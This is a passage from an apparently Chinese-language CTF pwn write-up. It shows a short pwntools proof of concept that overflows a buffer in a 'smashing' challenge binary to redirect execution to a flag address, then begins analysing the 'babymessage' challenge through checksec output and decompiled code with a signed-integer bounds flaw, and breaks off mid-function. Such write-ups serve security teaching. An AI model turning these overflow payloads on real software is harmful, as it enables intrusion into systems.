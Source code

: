 ## POC

```python
from pwn import *

p = process('./smashing')

flag_addr = 0x6010a0

payload = '\x00'*0x118
payload += p64(flag_addr)
p.sendlineafter('Passwd:',payload)
p.interactive()
```

# 栈迁移-`babymessage`

## 题目分析

程序`checksec`信息如下：

```shell
[*] '/home/hjc18/PWN/qwb2020/babymessage/babymessage'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
```

只开了`NX`，没有`Canary`和`PIE`。

`main`函数的逻辑是经典的菜单题：

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  menu();
  work();
  return 0;
}
```

`work`是程序的主流程函数，几个`while/break`看起来好像云里雾里，实际上是一个简单的`switch`逻辑。通过输入`mm`来切换执行的流程，那么相应的，传入的参数也被`mm`所控制。不过细看程序逻辑，`v1`的类型为`signed int`，`leave_message`前`v1`的校验逻辑只包含上界而无下界，意味着`v1`为负可以绕过第一个校验——由此产生一个思路：如何通过修改`v1`来控制传入参数：

```cpp
__int64 work()
{
  signed int v1; // [rsp+Ch] [rbp-4h]

  buf = (char *)malloc(0x100uLL);
  v1 = mm + 0x10;
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          puts("choice: ");
```